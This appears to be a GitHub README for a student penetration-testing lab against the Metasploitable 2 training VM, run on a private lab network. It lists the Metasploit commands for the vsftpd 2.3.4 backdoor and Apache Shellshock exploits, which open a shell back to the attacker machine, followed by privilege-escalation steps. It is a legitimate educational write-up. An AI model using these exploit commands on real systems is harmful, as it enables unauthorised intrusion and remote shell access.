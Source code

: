 # Metasploitable 2 - VAPT Project

This repository documents a full Vulnerability Assessment and Penetration Testing (VAPT) process carried out against the intentionally vulnerable **Metasploitable 2** virtual machine.

## 🎯 Objective

To identify and exploit real-world vulnerabilities using professional penetration testing methodologies and tools such as **Nikto** and **Metasploit**, culminating in shell access and privilege escalation.

---

## 🛠️ Tools Used

- **Kali Linux (Attacker Machine)**
- **Nikto** – Web server vulnerability scanner
- **Metasploit Framework** – Exploitation and payload management

---

## 🎯 Objectives

- Identify vulnerable services
- Exploit known CVEs (Apache, FTP)
- Obtain shell access
- Attempt privilege escalation

## 📝 Key Metasploit Commands

- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 192.168.56.102
- run
- use exploit/multi/http/apache_mod_cgi_bash_env_exec
- set RHOSTS 192.168.56.102
- set TARGETURI /cgi-bin/test.cgi
- set LHOST 192.168.56.101
- run
- sessions -i 1
- whoami
- id



## 📷 Screenshots

| Screenshot | Description |
|------------|-------------|
| `nikto_results.png` | Vulnerabilities detected by Nikto |
| `metasploit_shell_access.png` | Gaining shell using Apache exploit |
| `meterpreter_session.png` | Meterpreter session opened |
| `privilege_escalation_attempt.png` | Attempt to escalate from www-data to root |

---

## 📄 Report

PDF write-up coming soon...

---

## ⚠️ Disclaimer

> This project was performed in a **legal, controlled lab environment** using Metasploitable 2 for educational purposes only.  
> Do not attempt these techniques on any system without **explicit permission**.

---

